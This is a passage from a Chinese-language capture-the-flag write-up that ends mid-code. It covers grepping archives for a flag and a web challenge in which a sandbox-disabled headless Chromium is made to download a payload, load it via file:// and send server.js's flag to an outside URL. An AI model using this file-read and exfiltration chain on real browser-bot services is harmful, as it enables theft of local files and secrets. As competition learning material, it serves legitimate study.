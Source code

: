 ``` python
```

``` bash
for filename in $(ls)
do
  echo $filename
  tar -tf $filename |grep 'flag'
done
```

- 透過 gzip 解壓縮這些資料, 在某個 object 中發現:
    - ![](https://i.imgur.com/nsLgaoI.png)

成功拿到 flag
```
BALSN{What_permissions_does_the_service_account_need}
```

## [Web] The Woven Web

1. 分析 server 如何 load url -> 透過 chromium
2. 如何得到 server.js 的 flag -> 透過 local 的方式讀取 server.js 
3. 如何在 local 執行我們的 payload.html -> 下載至 local 並透過 file protocol 仔入 payload.html
4. 如何下載到 local -> one click attack
5. payload.html -> 透過 xmlhttprequest/\<script src> server.js 載入 server.js
6. 將 flag 送出來 -> 利用 xmlhttprequest/(fetch/open) 將 flag 往外送

起手勢，我們知道 server 是 js, 如果可以透過 script tag 就可以載入 server.js 則可以把 server.js 中的 FLAG 變數丟出來。

如果 chromium 載入的 url 是外部連結，如: balsnctf.com/payload.html 則無法載入 local file, 所以我們需要在 local 執行一些 payload。

我們可以找到 driver 是 Chromium 去操作 redis 中 queuing 的 url，而 chromium 可以直接下載檔案, 並透過 one click attack 將資料下載到 server

至於怎麼知道 Server 的 download path, 透過 Dockerfile 可以知道使用者是 user, 而 home 位於 /home/user

chromium 預設的 Download path 是 "~/Download" (at-user-home-directory), 所以當檔案可以寫入 filesystem 以後, 我們可以透過 file:///home/user/Download/payload.html 載入 payload

而 payload.html 則會將一些 browser 預設不存在的變數，如：require 則會噴錯, 因此要將這些變數作定義。
定義完可以透過 fetch/open/xmlhttprequest 將 flag 往外部網路的 url 丟，就可以得到 flag

其他資訊分析:
chrome 參數為 `options.addArguments(['--no-sandbox', '--disable-gpu', '--disable-dev-shm-usage']);` 所以可以載檔案下來到 `file://` 跑

download.html
```html
<script>
function download(dataurl, filename) {
  var a = document.createElement("a");
  a.href = dataurl;
  a.setAttribute("download", filename);
  a.click();
}

function makeid(length) {
   var result           = '';
   var characters       = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
   var charactersLength = characters.length;
   for ( var i = 0; i < length; i++ ) {
      result += characters.charAt(Math.floor(Math.random() * charactersLength));
   }
   return result;
}


file_name = Number(new Date).toString(16) + makeid(40) + '.html'
```